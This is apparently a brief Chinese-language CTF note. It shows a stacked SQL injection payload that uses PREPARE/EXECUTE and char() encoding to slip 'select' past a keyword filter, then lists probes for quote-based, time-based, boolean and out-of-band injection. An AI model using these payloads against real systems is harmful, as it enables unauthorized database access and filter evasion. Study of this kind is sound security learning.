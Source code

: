 直接输入payload：

    1';PREPARE jwt from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE jwt;#

其中concat(char(115,101,108,101,99,116)等同于select，绕过过滤



##检测漏洞方法##

	?id=1' --+  符号型漏洞
	?id=1' and sleep(10)--+  时间注入型
	?id=1' and 1=2 --+ 布尔型
	?id=1' and --+
	提交OASTpayloads触发out-of-band网络交互，如DNS